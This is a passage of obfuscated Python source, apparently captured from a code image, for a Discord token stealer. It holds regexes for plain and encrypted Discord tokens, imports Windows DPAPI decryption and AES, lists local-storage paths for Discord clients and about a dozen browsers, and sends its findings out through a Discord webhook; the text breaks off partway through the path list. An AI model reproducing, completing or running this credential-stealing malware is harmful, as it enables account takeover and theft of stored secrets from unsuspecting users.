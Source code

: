 
    embed.set_footer(text=HCGWLTGHNORLJAFTRGEIVUFUWZANRHYBTAWNFWEYDYGQGUTYPOFUANQCDSTMVCCXTZWN, icon_url=RPKDOBYFEXPLFGWHSZJLJYUDKOQHQBWZSLWPSOTUWYFCHJVNHKFOWEWOYGUYMLTXRCWPZZEZLLYFEIZ)

    XLIKWCNJJMPBEYWUXOESQQKDDRNEFMGCGJWBYYIYKKODBUSROVETKCDDHHYJLRISGUIMZEXGGJRDIXRBZKGRFYOC = SyncWebhook.from_url(AWYDZXKNMNCAFZWEUXFADCLOWASGYIWLJWAKYXHSQPNVXODYGPUVTXVHXXB)
    XLIKWCNJJMPBEYWUXOESQQKDDRNEFMGCGJWBYYIYKKODBUSROVETKCDDHHYJLRISGUIMZEXGGJRDIXRBZKGRFYOC.send(embed=embed, username=OYCDBKYQEPDKHPUESFGJOLRQYSFXTCYTKCTUMCXKBCCPMCIIMVQQGQYBSYMGASU, avatar_url=RPKDOBYFEXPLFGWHSZJLJYUDKOQHQBWZSLWPSOTUWYFCHJVNHKFOWEWOYGUYMLTXRCWPZZEZLLYFEIZ)

def TMNBCKSQMRXMNCBKOMCMOUVDBQLLTRXICFUJSPLSMSLGANVHEZTUBNCKRTLVSDCTXH():
    import os
    import re
    import json
    import base64
    import requests
    from Cryptodome.Cipher import AES
    from win32crypt import CryptUnprotectData
    from discord import SyncWebhook, Embed

    def JLNRHKUHTZNGLBXNCBRBXFYMLFILHMZFAVHGAHUEXWVMFCUVNRFEGEIZFQRSWKWAKPNQUCHFVOAZUUIAVVVGKOMCBLFAZ():
        CMRPOOENGKQMMOIAQPWUKRPOJZFTHMFWMSJNINFNJXOVQKUZHT = "https://discord.com/api/v9/users/@me"
        FNLNEBIUVEGGHWNUQACYYBLAIRZEENKIHXOBNKFNIJSOEJVASHMBQRPFMWQJNBNREYWCVZVMR = r"[\w-]{24}\.[\w-]{6}\.[\w-]{25,110}"
        FNLNEBIUVEGGHWNUQACYYBLAIRZEENKIHXOBNKFNIJSOEJVASHMBQRPFMWQJNBNREYWCVZVMR_enc = r"dQw4w9WgXcQ:[^\"]*"
        ICYAONVZTQLABISHPSHDWRZZBSYGBRSTFUBLZOBAAUOSFJQHHQORLFHZLNVENORFP = []
        XSIJLYNOHAAKSEPNOHGZSECISTUNUBSEVMXYKUJJQZDEJGAFNOFVJQHGIXSFORUKICSAJUTTERMMNTGXNLJPJURKCCVXEA = []
        SGZEHSRYXZXETUCQBJOYBNWQEQRVMEGFDVRTXIXGSRYSAPLEOTMDJINYFWTPQYXTQTLWKDQWZAMPBIYETITBPCHQZULWIUMJHLD = {}

        DGRKLIVRNPAHCZLKOOQDLCXQZTIJOMCCIVJUEVUXBUJHWLFZSHPHHDOISNEQEIWEVLRBDOCHNIMTMMPOGQRUK = {
            'Discord': MJFRHOVTFXNBQXVCZUXHXNAFBJHZMBBETZRBMDIDNFALDSPRRFLHIOKSSZEQWSDNCGOICNPHUAVQVUPGCYQLZPAGWYNAS + '\\discord\\Local Storage\\leveldb\\',
            'Discord Canary': MJFRHOVTFXNBQXVCZUXHXNAFBJHZMBBETZRBMDIDNFALDSPRRFLHIOKSSZEQWSDNCGOICNPHUAVQVUPGCYQLZPAGWYNAS + '\\discordcanary\\Local Storage\\leveldb\\',
            'Lightcord': MJFRHOVTFXNBQXVCZUXHXNAFBJHZMBBETZRBMDIDNFALDSPRRFLHIOKSSZEQWSDNCGOICNPHUAVQVUPGCYQLZPAGWYNAS + '\\Lightcord\\Local Storage\\leveldb\\',
            'Discord PTB': MJFRHOVTFXNBQXVCZUXHXNAFBJHZMBBETZRBMDIDNFALDSPRRFLHIOKSSZEQWSDNCGOICNPHUAVQVUPGCYQLZPAGWYNAS + '\\discordptb\\Local Storage\\leveldb\\',
            'Opera': MJFRHOVTFXNBQXVCZUXHXNAFBJHZMBBETZRBMDIDNFALDSPRRFLHIOKSSZEQWSDNCGOICNPHUAVQVUPGCYQLZPAGWYNAS + '\\Opera Software\\Opera Stable\\Local Storage\\leveldb\\',
            'Opera GX': MJFRHOVTFXNBQXVCZUXHXNAFBJHZMBBETZRBMDIDNFALDSPRRFLHIOKSSZEQWSDNCGOICNPHUAVQVUPGCYQLZPAGWYNAS + '\\Opera Software\\Opera GX Stable\\Local Storage\\leveldb\\',
            'Amigo': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Amigo\\User Data\\Local Storage\\leveldb\\',
            'Torch': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Torch\\User Data\\Local Storage\\leveldb\\',
            'Kometa': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Kometa\\User Data\\Local Storage\\leveldb\\',
            'Orbitum': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Orbitum\\User Data\\Local Storage\\leveldb\\',
            'CentBrowser': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\CentBrowser\\User Data\\Local Storage\\leveldb\\',
            '7Star': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\7Star\\7Star\\User Data\\Local Storage\\leveldb\\',
            'Sputnik': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Sputnik\\Sputnik\\User Data\\Local Storage\\leveldb\\',
            'Vivaldi': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Vivaldi\\User Data\\Default\\Local Storage\\leveldb\\',
            'Google Chrome SxS': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Google\\Chrome SxS\\User Data\\Local Storage\\leveldb\\',
            'Google Chrome': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb\\',